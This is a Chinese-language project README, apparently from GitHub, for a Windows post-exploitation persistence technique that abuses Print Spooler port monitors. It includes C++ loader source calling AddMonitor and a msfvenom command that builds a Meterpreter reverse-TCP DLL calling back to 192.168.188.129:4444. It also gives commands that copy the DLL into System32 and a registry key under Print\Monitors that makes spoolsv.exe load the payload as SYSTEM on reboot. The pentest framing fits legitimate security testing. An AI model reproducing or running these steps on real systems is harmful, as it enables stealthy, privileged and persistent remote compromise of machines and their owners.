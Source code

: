 #### 项目说明

用于实现后渗透测试阶段权限维持

#### 项目使用

**Step1**：下载该项目，之后使用VS编译Monitor.cpp，当然也可以使用编译好的，Monitor.cpp代码如下所示：

~~~
#include "Windows.h"

int main() {
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("Monitor");
	TCHAR dll[12] = TEXT("test.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
~~~

- pName //监视器名称 
- pEnvironment //环境架构 
- pDLLName //监视器DLL文件的名称

**Step 2**：使用Msfvenom生成dll攻击载荷：

~~~
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.188.129 LPORT=4444 -f dll > shell.dll
~~~

![test_dll](images/test_dll.png)

**Step 3**：将shell.dll复制到目标主机的system32目录下，之后重命名为test.dll(也就是上面的PDLLName，你也可以自己修改为自己喜欢的，总之随意)

~~~
copy C:\temp\shell.dll C:\Windows\System32\test.dll
~~~

![copy](images/copy.png)

**Step 4**：之后进入system32目录，并执行以下命令(Monitors.exe为之前编译好的文件，也需要放置到system32目录下)：

~~~
Monitors.exe
~~~

![Monitor](images/Monitor.png)

**Step 5**：之后成功接收到Meterpreter会话

![Meterpreter](images/Meterpreter.png)

#### 持久化实现

为了实现持久性，我们需要在"Monitors"注册表位置下设置一个key:

~~~
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors
~~~

之后在命令行下执行以下命令创建一个注册表项，该注册表项将包含值test.dll，从编辑器中查看注册表验证密钥是否已创建：

~~~
reg add "hklm\system\currentcontrolset\control\print\monitors\Pentestlab" /v "Driver" /d "test.dll" /t REG_SZ
~~~

![regedit](images/regedit.png)

下次重新启动时，spoolsv.exe进程将加载Monitors注册表项中存在并存储在Windows文件夹System32中的所有驱动程序DLL文件，下图演示了Meterpreter会话已建立与Print Spooler服务(SYSTEM)相同级别的特权，并且已从System32文件夹执行了

![shell](images/shell.png)



